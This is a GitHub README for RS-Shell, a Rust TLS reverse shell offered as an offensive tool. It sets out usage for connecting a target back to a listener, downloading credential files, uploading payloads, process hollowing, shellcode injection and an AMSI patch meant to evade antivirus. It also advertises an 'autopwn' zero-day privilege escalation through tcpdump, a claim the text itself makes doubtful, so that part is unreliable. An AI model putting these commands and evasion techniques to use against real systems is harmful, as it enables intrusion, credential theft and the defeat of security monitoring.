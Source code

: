 *"The worst Rust programmer you have ever seen"* - my mom
*"But at least it works"* - still my mom, but not about me

# RS-Shell

RS-Shell is a TLS over TCP reverse shell developped in Rust with client and server embedded in the same binary. This project has been mainly started to learn Rust with a tool that could help me in my work, and the code quality could be greatly improved.
Client and server are both cross-platform and work on Windows and Linux systems.

For Windows client, additonal features have been integrated for offensive purpose, and they will be improved in futur commits.
For this purpose, I have chosen to mainly use the official [windows_sys](https://docs.rs/windows-sys/latest/windows_sys/) crate to interact with the Win32API and the [ntapi](https://docs.rs/ntapi/latest/ntapi/) crate for the NTAPI.

The project is thought in module. This means that you can easily add or remove features to and from it, and you can also easily take parts from it to put them in your own project.

## Features

For the moment, the following features are present:

* Semi-interactive reverse shell via TLS over TCP
* File upload and download between server and client
* Start a PowerShell interactive session with the ability to patch the AMSI in memory
* Loading features :
  * Load and execute a PE in the client memory
  * Load and execute a PE in a remote process memory
  * Load and execute a shellcode in a remote process memory
* Autopwn the client machine and elevate the privileges to SYSTEM or root by exploiting a 0day in `tcpdump`

## How to

### Setup

First of all, the full path of your TLS certificate and its password must be configured in the file `server.rs` in place of the tags `[CERTFICATE_PATH]` and `[CERTIFICATE_PASSWORD]`.
Additionally, I have set a `dummy` domain for hostname validation in the `connect()` function for both clients. If you use a signed certificate for a real server, you can change it and remove the unsecure functions that remove hostname and certs validations.

By default, only the `error`, `warn` and `info` logs are displayed. If you also need the `debug` ones (can be usefull for the loading features), you can change this in `main.rs` by modifying `::log::set_max_level(LevelFilter::Info);` to `::log::set_max_level(LevelFilter::Debug);`.

### Compilation

The project can be compiled with `cargo build --release` on Windows or Linux and the binary will be present in `target/release/`.
Tu compile for a different target than your current OS you can use `cargo build --release --target x86_64-unknown-linux-gnu`

The project compilation has been tested with the following Rust toolchains :

* `stable-x86_64-pc-windows-gnu`
* `stable-x86_64-pc-windows-msvc`
* `stable-x86_64-unknown-linux-gnu`

If you compile the project for a Linux target, the "Windows features" will be removed at compilation.
Should run on all Windows and Linux versions (I have hope).

### Usage

```plain
Usage : shell.exe [l | c] IP port

    l       launch the listener application
    c       launch the client application

    IP      IP address to bind to for the listener, or to connect to for the client
    port    port address to bind to for the listener, or to connect to for the client

    In a session, type 'help' for advanced integrated commands
```

To obtain a session, just launch the binary in listener mode on your machine with `rs-shell.exe l IP_to_bind_to port_to_bind_to`. For example `rs-shell.exe l 0.0.0.0 4545`.
Then, on the target machine launch the client to connect back to your server with `rs-shell.exe c IP_to_connect_to port_to_connect_to`. For example `rs-shell.exe c 192.168.1.10 4545`.

### Advanced commands

```plain
> help
[+] Custom integrated commands :

    [+] Loading commands
    > load C:\path\to\PE_to_load
        load a PE file in the client process memory and executes it. This could kill the reverse shell !
    > load -h C:\path\to\PE_to_load C:\path\to\PE_to_hollow
        load a PE file in a remote process memory with process hollowing and executes it
    > load -s C:\path\to\shellcode.bin C:\path\to\PE_to_execute
        load a shellcode in a remote process memory and start a new thread with it

    [+] Bypass commands
    > powpow
        start a new interactive PowerShell session with the AMSI patched in memory

    [+] Network commands
    > download C:\file\to\download C:\local\path
        download a file from the remote system
    > upload C:\local\file\to\upload C:\remote\path\to\write
        upload a file to the remote system

    [+] Special commands
    > autopwn
        escalate to the SYSTEM account from any local account by exploiting a zero day
```

The `load` commands permit to load and execute directly in memory:

* `load` loads and execute a PE in the client memory. This will kill the reverse shell, but that could be usefull to launch a C2 implant in the current process for example
* `load -h` loads and execute a PE in a created remote process memory with process hollowing. You don't lose your reverse shell session, but the process hollowing will be potentially flag by the AV or the EDR
* `load -s` loads and execute a shellcode from a `.bin` file in a created remote process memory. You don't lose your reverse shell session, and you don't have to drop the bin file on the target, since the shellcode will be transfered to the target via the TCP tunnel

For example : `> load -h C:\Windows\System32\calc.exe C:\Windows\System32\cmd.exe`. This will start a `cmd.exe` process with hollowing, load a `calc.exe` image in the process memory, and then resume the thread to execute the calc.

`powpow` starts an interactive PowerShell session with a PowerShell process where the AMSI `ScanBuffer` function has been patched in memory. This feature is not particularly opsec.

`download` permits to download a file from the client to the machine where the listener is running. For example `download C:\Users\Administrator\Desktop\creds.txt ./creds.txt`.
`upload` permits to upload a file on the client machine. For example `upload ./pwn.exe C:\Temp\pwn.exe`.

`autopwn` permits to escalate to the **SYSTEM account** with a 0day exploitation. Just type `autopwn` and answer the question.

## Todo

- [ ] Move all the Win32API related commands to the NTAPI with indirect syscalls
- [ ] Implement other injection techniques
- [ ] Implement a port forwarding solution
- [ ] Find a way to create a fully proxy aware client
- [ ] Implement a reverse socks proxy feature

## Acknowledgements

* [OffensiveRust](https://github.com/winsecurity/Offensive-Rust) by [winsecurity](https://github.com/winsecurity). This project would never have existed without him. Many of functions, structures, and tricks present in `rs-shell` come from this project
* [OffensiveRust](https://github.com/trickster0/OffensiveRust) by [trickster0](https://github.com/trickster0)
* Multiple projects by [memN0ps](https://github.com/memN0ps)
* [RustPacker](https://github.com/Nariod/RustPacker) by [Nariod](https://github.com/Nariod)
* Nik Brendler's blog posts about pipe communication between process in Rust. [Part 1](https://www.nikbrendler.com/rust-process-communication/) and [Part 2](https://www.nikbrendler.com/rust-process-communication-part-2/)
